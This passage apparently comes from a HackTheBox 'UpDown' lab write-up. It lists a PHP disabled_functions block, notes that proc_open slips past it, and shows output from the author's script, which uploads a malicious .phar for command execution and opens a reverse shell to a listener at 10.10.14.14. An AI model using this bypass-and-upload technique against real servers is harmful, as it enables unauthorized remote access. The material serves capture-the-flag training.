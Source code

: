 
The `disabled_functions` are as following:
```bash
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
```

Our normal one-line webshell are hurting since `system`, `passthru`, `shell_exec`, `exec`, `popen` and `pcntl_exec` are all disabled, however `proc_open` is not. Here's a list of [dangerous php functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720).

To stream line this process I wrote a script to write a malicious `.phar` file, upload the it to the target and gather the data. 
The script have two flags.. 
.. `-c` / `--command` for command injection
.. `-r` / `reverse` automatically trigger a reverse shell

```bash
➜  updown python3 updown_rce.py -c "hostname && id"

  _   _       ____                      
 | | | |_ __ |  _ \  _____      ___ __  
 | | | | '_ \| | | |/ _ \ \ /\ / / '_ \ 
 | |_| | |_) | |_| | (_) \ V  V /| | | |
  \___/| .__/|____/ \___/ \_/\_/ |_| |_|
       |_|     by 0xPThree - exploit.se 
       

[+] File uploaded to: http://dev.siteisup.htb/uploads/1e0087c3c8c5df2f1f97f1cd169b705f/05f6adf04d44.phar
[+] Executing command 'hostname && id'...
[+] Response: updown
uid=33(www-data) gid=33(www-data) groups=33(www-data)

https://exploit.se

time elapsed: 0.284085750579834 seconds
```

```bash
➜  updown python3 updown_rce.py -r                 

  _   _       ____                      
 | | | |_ __ |  _ \  _____      ___ __  
 | | | | '_ \| | | |/ _ \ \ /\ / / '_ \ 
 | |_| | |_) | |_| | (_) \ V  V /| | | |
  \___/| .__/|____/ \___/ \_/\_/ |_| |_|
       |_|     by 0xPThree - exploit.se 
       

[+] File uploaded to: http://dev.siteisup.htb/uploads/102fe1680abe9017c824e82855db0674/71926ca1faf8.phar
[+] Preparing reverse shell
[+] Starting listener on port 4488
listening on [any] 4488 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.4.182] 41428
/bin/sh: 0: cant access tty; job control turned off
$ id && hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
updown
```
